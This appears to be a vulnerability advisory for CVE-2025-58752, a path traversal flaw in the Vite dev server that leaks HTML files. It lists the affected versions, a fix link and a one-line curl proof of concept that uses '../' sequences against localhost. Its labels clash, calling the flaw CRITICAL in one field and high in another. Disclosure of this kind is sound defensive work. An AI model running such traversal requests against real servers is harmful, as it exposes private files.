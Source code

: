 ```yaml
---
description: CVE-2025-58752, CRITICAL, Vite arbitrary remote HTML file leak
title: Vite arbitrary remote HTML file leak
date_published: "2025-09-15"
last_updated: "2025-09-15"
xray_id:
vul_id: CVE-2025-58752
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

Vite arbitrary remote HTML file leak

## Component

[vite](https://www.npmjs.com/package/vite)

## Affected versions

\>=7.1.0,<=7.1.4

\>=7.0.0,<=7.0.6

\>=6.0.0,<=6.3.5

<=5.4.19

## Description

This vulnerability allows a remote attacker to leak any HTML file on the system.

## PoC

Assuming a vite server is running on localhost, and `somefile.html` exists at the root directory

```shell
curl -v --path-as-is 'http://localhost:5173/../../../../../../../../../../../somefile.html'
```

## Vulnerability Mitigations

No mitigations are supplied for this vulnerability 



## References

[Fix PR](https://github.com/vitejs/vite/pull/20736)
